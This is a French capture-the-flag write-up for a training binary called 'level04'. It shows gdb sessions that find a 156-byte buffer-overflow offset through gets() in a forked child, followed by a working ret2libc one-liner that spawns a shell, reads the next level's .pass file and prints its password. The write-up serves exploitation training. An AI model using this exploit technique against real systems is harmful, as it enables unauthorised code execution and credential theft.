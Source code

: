 # LEVEL 04

On trouve un binaire **level04** à la racine du répo, contenant une fonction **main**.

En traduisant le code (**source.c**), on s'appercoit que le main utilise un **gets** que nous pouvons exploiter pour faire un **buffer overflow**.

Petite particularité, il y a la création d'un **child**, que gdb (par défault) ne suit pas. (If PID)

Pour contrer cela nous utlisons la commande `set follow-fork-mode child`

Ainsi pour récuperer l'Offset nous faisons donc :

```gdb
(gdb) set follow-fork-mode child

(gdb) b *main+155
Breakpoint 1 at 0x8048763
run
Starting program: /home/users/level04/level04
[New process 2821]
Give me some shellcode, k
BBBBBBBBBBBBBBBBBBBBBBBBBBB
[Switching to process 2821]

Breakpoint 1, 0x08048763 in main ()
(gdb) i f
Stack level 0, frame at 0xffffd720:
 eip = 0x8048763 in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args:
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd710, ebp at 0xffffd718, edi at 0xffffd714, eip at 0xffffd71c
(gdb) x/30x $eax
0xffffd680:     0x42424242      0x42424242      0x42424242      0x42424242
0xffffd690:     0x42424242      0x42424242      0x00424242      0x00000000
0xffffd6a0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd6b0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd6c0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd6d0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd6e0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd6f0:     0x00000000      0x00000000
p 0xffffd71c - 0xffffd680
$1 = 156
```

Donc nous avons un Offset de **156**.

On recupere l'adresse de **system**, **exit** et **/bin/sh**:

```gdb
(gdb) p &system
$2 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
(gdb) p &exit
$3 = (<text variable, no debug info> *) 0xf7e5eb70 <exit>
(gdb) info proc map
process 2821
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
         0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fd8000 0xf7fda000     0x2000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

Pour finir nous effectuons un Ret2Libc:

```shell
(python -c "print 'A'*156 + '\xd0\xae\xe6\xf7' +  '\x70\xeb\x5e\xf7' + '\xec\x97\xf8\xf7'"; cat) | ./level04
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```